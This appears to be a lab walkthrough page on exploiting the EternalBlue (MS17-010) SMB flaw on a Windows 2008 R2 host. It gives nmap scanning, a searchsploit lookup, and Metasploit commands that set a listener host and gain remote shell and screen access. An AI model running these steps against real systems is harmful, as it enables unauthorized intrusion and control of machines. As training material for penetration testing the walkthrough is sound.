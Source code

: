 ```yaml
---
icon: square-up-right
---
```


# Eternal Blue

## Scanning & Enumeration

```bash
nmap -sV -A -F -T5 -Pn -n --disable-arp-ping 192.168.5.101 --min-rate 300  
```

-sV                                    Scan Version

-A                                      Advance Scan

-F                                      Scan Top 100 Ports

-T5                                    Fast Scan

-Pn                                   Disable Host Discovery

-n                                      Disable DNS Recovery

\--disable-arp-ping       Prevents ARP Ping

\--min-rate 300             Ensure 300 packets for second           &#x20;

<figure><img src="../../.gitbook/assets/Enumeration.png" alt=""><figcaption><p>Nmap Scan</p></figcaption></figure>

## Searching For Vulnerabilities

Port 445 which is SMB service is open. Let's check for vulnerabilites in Microsoft Windows 2008 R2 Server.

```bash
searchsploit smb | grep -i "2008 R2"
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-03-19 110653.png" alt=""><figcaption><p>Searchsploit smb</p></figcaption></figure>

There is a SMB Remote code Execution (MS17-010) vulnerability named as EternalBlue.

## Gaining Access ( Exploitation )

```
msfconsole
```

### Login To Metasploit Framework

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Metasploit Framework </p></figcaption></figure>

### Search Vulnerability "EternalBlue"

```
search EternalBlue type:exploit
```

<figure><img src="../../.gitbook/assets/Screenshot 2025-03-19 111332.png" alt=""><figcaption><p>search EternalBlue</p></figcaption></figure>

```
use 0
show options
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Exploit Options</p></figcaption></figure>

```bash
set rhost 192.168.5.101
set lhost 192.168.5.128
exploit
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Exploited Machine</p></figcaption></figure>

## Post Exploitation

```
screenshare
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Live Feed Of the Exploited Machine</p></figcaption></figure>

```
shell
```

Gives the Windows CMD shell.

